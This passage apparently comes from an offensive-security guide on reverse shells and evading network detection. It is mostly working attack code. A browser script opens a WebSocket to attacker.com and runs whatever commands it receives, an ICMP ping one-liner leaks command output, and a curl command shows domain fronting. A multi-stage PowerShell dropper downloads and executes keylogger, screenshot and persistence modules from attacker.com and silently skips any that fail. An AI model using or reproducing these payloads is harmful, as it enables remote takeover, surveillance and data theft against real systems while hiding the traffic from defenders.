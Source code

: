 ```bash
<script>
var ws = new WebSocket("ws://attacker.com:8080");
ws.onopen = function() {
    ws.send("Connected from: " + location.hostname);
};
ws.onmessage = function(event) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "data:,", false);
    xhr.send(eval(event.data));
    ws.send(xhr.responseText);
};
</script>
EOF

# ICMP reverse shells (appears as ping traffic)
# Custom ICMP payload with embedded commands
ping -c 1 -p $(echo "id" | xxd -p) attacker.com

# Social media C2 channels
# Use Twitter, Facebook, or other platforms for command and control
# Commands embedded in posts, responses in comments

# Domain fronting (cloud service evasion)
# Route traffic through legitimate cloud services
curl -H "Host: legit-service.com" https://cdn.cloudfront.net/malicious-endpoint

# Why network evasion is essential:
# - Network monitoring detects suspicious traffic patterns
# - Legitimate protocols bypass most firewall rules
# - Encrypted channels prevent content inspection
# - Social media channels appear as normal user activity
# - Domain fronting makes traffic analysis difficult
```

## Advanced Reverse Shell Techniques

### **Multi-Stage Payloads**

**What multi-stage payloads provide:** Sophisticated delivery mechanisms that download and execute additional stages, providing flexibility and advanced evasion capabilities.

```bash
# Multi-stage PowerShell payload
# Stage 1: Initial dropper (small, basic)
powershell -c "$wc = New-Object System.Net.WebClient; $wc.DownloadString('http://attacker.com/stage2.ps1') | IEX"

# Stage 2: Advanced payload with capabilities
cat > stage2.ps1 << 'EOF'
# Download and execute additional modules
$modules = @(
    "http://attacker.com/keylogger.ps1",
    "http://attacker.com/screenshot.ps1", 
    "http://attacker.com/persistence.ps1"
)

foreach ($module in $modules) {
    try {
        $wc = New-Object System.Net.WebClient
        $wc.DownloadString($module) | IEX
    } catch {
        # Silently continue if module fails
    }
```